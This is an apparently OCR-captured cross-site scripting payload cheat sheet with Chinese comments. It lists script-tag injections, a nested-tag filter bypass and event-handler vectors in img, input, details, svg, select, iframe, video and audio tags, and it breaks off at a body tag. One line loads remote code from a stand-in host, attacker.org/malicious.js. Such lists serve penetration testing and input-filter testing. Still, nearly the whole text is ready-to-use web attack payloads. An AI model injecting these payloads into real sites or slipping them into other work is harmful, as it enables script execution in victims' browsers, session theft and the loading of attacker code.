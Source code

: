 ```html
--><script>alert(123)</script>
><script>alert(123);</script x=
<script>alert/(a/)</script>
<script NAUGHTY_HACKER>alert(1)</script NAUGHTY_HACKER>

绕过进行一次移除操作：
<scr<script>ipt>alert("XSS")</scr<script>ipt>
Script 标签可以用于定义一个行内的脚本或者从其他地方加载脚本：
<script>alert("XSS")</script>
<script src="http://attacker.org/malicious.js"></script>
```
```html
<img>
<img src=x onerror=alert(123) />

<input>
<input onfocus="alert('xss');">
<input onblur=alert("xss") autofocus><input autofocus> //竞争焦点,从而触发onblur事件
<input onfocus="alert('xss');" autofocus>  //通过autofocus属性执行本身的focus事件,这个向量是使焦点自动跳到输入元素上,触发焦点事件,无需用户去触发
<input type="image" formaction=JaVaScript:alert(0)>

<details>
<details open OntogGle="alert(1)">  //使用open属性触发ontoggle事件,无需用户去触发

<svg>
<svg onload=alert("xss");>
<svg/onload=prompt(1);>

<select>
<select onfocus=alert(1)></select>
<select onfocus=alert(1) autofocus> //通过autofocus属性执行本身的focus事件

<iframe>
<iframe onload=alert("xss");></iframe>
<IFRAME SRC="javascript:alert(29);"></IFRAME>

<video>
<video><source onerror="alert(1)">
<video poster=javascript:alert(1)//></video> // Works Upto Opera 10.5

<audio>
<audio src=x  onerror=alert("xss");>

<body>

<body
